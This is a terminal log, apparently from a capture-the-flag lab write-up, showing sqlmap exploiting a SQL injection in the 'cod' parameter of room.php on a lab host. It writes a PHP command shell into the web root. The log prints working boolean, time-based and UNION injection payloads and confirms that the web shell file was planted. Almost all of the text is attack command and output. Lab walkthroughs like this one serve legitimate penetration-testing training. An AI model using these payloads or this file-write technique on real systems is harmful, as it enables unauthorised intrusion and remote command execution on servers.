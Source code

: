    
    root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch --file-write /opt/shells/php/cmd.php --file-dest /var/www/html/0xdf.php
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.3.4#stable}
    |_ -| . [.]     | .'| . |
    |___|_  [.]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 15:08:51 /2019-06-28/
    
    [15:08:51] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_6; en-US) AppleWebKit/534.18 (KHTML, like Gecko) Chrome/11.0.660.0 Safari/534.18' from file '/usr/share/sqlmap/txt/user-agents.txt'
    [15:08:52] [INFO] resuming back-end DBMS 'mysql' 
    [15:08:52] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=1 AND 8643=8643
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: cod=1 AND SLEEP(5)
    
        Type: UNION query
        Title: Generic UNION query (NULL) - 7 columns
        Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
    ---
    [15:08:52] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian 9.0 (stretch)
    web application technology: Apache 2.4.25
    back-end DBMS: MySQL >= 5.0.12
    [15:08:52] [INFO] fingerprinting the back-end DBMS operating system
    [15:08:52] [INFO] the back-end DBMS operating system is Linux
    [15:08:52] [WARNING] expect junk characters inside the file as a leftover from UNION query
    do you want confirmation that the local file '/opt/shells/php/cmd.php' has been successfully written on the back-end DBMS file system ('/var/www/html/0xdf.php')? [Y/n] Y
    [15:08:52] [INFO] the remote file '/var/www/html/0xdf.php' is larger (41 B) than the local file '/opt/shells/php/cmd.php' (35B)
    [15:08:52] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'
    
    [*] ending @ 15:08:52 /2019-06-28/
    